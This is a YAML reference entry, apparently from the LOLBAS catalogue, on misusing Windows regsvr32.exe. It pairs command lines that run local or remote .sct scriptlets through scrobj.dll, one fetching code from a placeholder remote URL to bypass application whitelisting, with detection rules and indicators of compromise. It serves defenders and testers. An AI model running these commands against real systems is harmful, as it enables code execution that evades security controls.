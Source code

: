 ```yaml
---
Name: Regsvr32.exe
Description: Used by Windows to register dlls
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: regsvr32 /s /n /u /i:{REMOTEURL:.sct} scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
      - Execute: Remote
  - Command: regsvr32.exe /s /u /i:{PATH:.sct} scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
  - Command: regsvr32 /s /n /u /i:{REMOTEURL:.sct} scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
      - Execute: Remote
  - Command: regsvr32.exe /s /u /i:{PATH:.sct} scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
Full_Path:
  - Path: C:\Windows\System32\regsvr32.exe
  - Path: C:\Windows\SysWOW64\regsvr32.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_parent.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_child_process.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_exec_path_1.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_network_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/network_connection/net_connection_win_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/dns_query/dns_query_win_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_regsvr32_flags_anomaly.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/detect_regsvr32_application_control_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/execution_register_server_program_connecting_to_the_internet.toml
  - IOC: regsvr32.exe retrieving files from Internet
  - IOC: regsvr32.exe executing scriptlet (sct) files
  - IOC: DotNet CLR libraries loaded into regsvr32.exe
  - IOC: DotNet CLR Usage Log - regsvr32.exe.log
Resources:
  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

